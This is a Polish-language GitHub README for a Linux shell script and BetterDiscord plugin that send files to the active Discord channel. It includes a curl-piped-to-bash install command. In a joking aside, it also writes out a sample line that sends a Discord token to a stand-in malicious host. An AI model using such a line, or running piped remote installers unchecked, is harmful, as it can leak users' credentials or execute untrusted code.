 # DiscordFileFromCLI
Skrypt powłoki umożliwiający wysyłanie plików na aktualnie wybrany kanał w aplikacji discorda.

Aktualnie wspierany jest tylko Linux i stabilna gałąź aplikacji discorda. 

# Instalacja
Jest skrypt instalacyjny, użycie tego polecenia powinno zainstalować skrypt oraz plugin.
```bash
bash -c "$(curl https://raw.githubusercontent.com/koliwbr/DiscordFileFromCLI/master/install.sh -s)" 
```
W razie problemów ręczna instalacja polega na dodaniu [sendtodiscord.sh](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/sendtodiscord.sh) do PATH i zainstalowniu [FileFromCLI.plugin.js](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/FileFromCLI.plugin.js) jako wtyczki do BeterDiscord

# Błędy
Jak ktoś (jeśli ktoś to czyta wogóle) znajdzie jakąś literówkę / błąd logiczny / lukę bezpieczeństwa - to sory, napisz mi na discordzie to to poprawię jak znajdę chwilę. Albo można wyklikać tu na GH, jeśli to nie będzie nic w stylu curl -so /dev/null http://zło.kropka/hahakradnetoken/${dctoken}/ to raczej będzie git. 
